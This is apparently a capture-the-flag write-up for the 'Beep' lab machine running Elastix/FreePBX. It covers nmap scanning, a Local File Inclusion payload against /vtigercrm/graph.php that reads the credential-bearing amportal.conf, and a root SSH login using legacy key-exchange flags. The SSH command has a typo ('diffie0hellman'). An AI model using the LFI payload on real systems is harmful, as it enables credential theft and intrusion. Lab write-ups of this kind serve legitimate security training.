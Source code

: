 ## Beep

### Lab Details 

- Difficulty: Easy
- Type: Web app, Webb exploit, SSH, Linux

#### Tasks

Q1: Which Linux distribution is the target machine running?
 - `nmap target_ip -sT -A -p- -T4`
 ```
    443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
    |_http-title: Elastix - Login page
    | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Not valid before: 2017-04-07T08:22:08
    |_Not valid after:  2018-04-07T08:22:08
    | http-robots.txt: 1 disallowed entry 
    |_/
    |_http-server-header: Apache/2.2.3 (CentOS)
    |_ssl-date: 2025-05-16T02:00:43+00:00; -1m01s from scanner time.
```
 - CentOS

Q2: What version of TLS is the web application on TCP port 443 using?
 - `nmap target_ip -sV -script ssl-enum-ciphers -p 443`
```
    |   TLSv1.0: 
    |     ciphers: 
    |       TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA (dh 1024) - F
    |       TLS_DHE_RSA_WITH_AES_128_CBC_SHA (dh 1024) - F
```

Q3: What is the name of the software that's hosting a webserver on 443?
 - can be found in first nmap output or visit the app via URL
 - elastix

Q4: Which Elastix endpoint is vulnerable to a Local File Inclusion?
 - according to https://www.exploit-db.com/exploits/37637 
 - `#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
 - and based on the exploit above the vulnerable endpoint is located at /vtigercrm/graph.php

Q5: What is the name of the FreePBX configuration file that contains the database configuration?
 - according to the exploit we are fetch the file called amportal.conf which contains db configurations

Q6: What additional flag is needed when attempting to SSH as root to the target machine due to a "no matching key exchange method found" error? It starts with -o and ends with -sha1.
 - when trying to ssh as root to target we get below error 
```
ssh root@10.10.10.7            
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
 - after searching online, to connect using legacy cipher ssh will require the cipher to be specified
 - we need both server and host cipher to be specified inorder to connect
 - `ssh -oKexAlgorithms=+diffie0hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@target_ip`

Q7&8: Flags for user fanis and root 
 - located at /root/root.txt and /home/fanis/users.txt

#### Lesson Learned
- Check web app TLS version and if TLS version is 1 or 2 update it, on firefox set security.tls.version.min to 1 in about:config
- Need to read and understand the exploit, read it carefully
- Need to understand the output of an exploit
- How to connect to remote when using legacy cipher`ssh -oKexAlgorithms=+diffie0hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@target_ip`
